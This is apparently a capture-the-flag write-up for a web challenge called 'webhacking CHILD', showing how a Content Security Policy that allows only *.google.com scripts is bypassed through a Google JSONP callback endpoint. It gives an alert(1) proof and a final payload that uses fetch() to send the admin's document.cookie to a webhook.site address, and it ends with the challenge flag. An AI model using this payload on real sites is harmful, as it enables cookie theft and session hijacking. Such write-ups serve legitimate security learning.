


# webhacking CHILD Solution

Here we can run scripts only from the subdomain of `*.google.com`.

However, using this github repo [JSONBee](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt), we can find snippets that let us run our code :)

I am using this snippet:
```
<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1)"></script>
```

And, as you can see:



This will be our payload to the admin:
```
?inject=?inject=<script%20src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27https://webhook.site/b9845d0e-4624-4ee7-89c9-90bfd2b1d3eb/?cookies=%27%252bdocument.cookie);"></script>
```
notice to base encode `+` twice.





**Flag:** ***`FLAG{I_hacked_google.com_and_it_was_ezpz}`*** 
